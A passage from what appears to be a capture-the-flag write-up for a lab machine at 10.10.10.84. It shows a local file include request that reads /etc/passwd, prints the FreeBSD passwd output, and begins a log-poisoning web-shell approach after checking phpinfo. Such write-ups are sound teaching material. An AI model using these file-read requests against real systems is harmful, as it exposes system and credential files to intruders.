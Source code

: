 Now we have a password.

### Local File Include (LFI)

Entering those php scripts into the bar does run them, but there’s also an obvious local file include that allows any site visitor to grab any file they want:
`view-source:http://10.10.10.84/browse.php?file=%2Fetc%2Fpasswd`

```

# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh

```

With a user name charix here, we could go directly to shell. But that’s no fun, so let’s keep attacking this web app.

### Web Shell Via Log Poisoning

The phpinfo (which is easy to get from http://10.10.10.84/browse.php?file=phpinfo.php) does show that `allow_url_include` is off, which eliminates direct RFI.
![](https://0xdfimages.gitlab.io/img/poison_phpinfo-zoom.png)
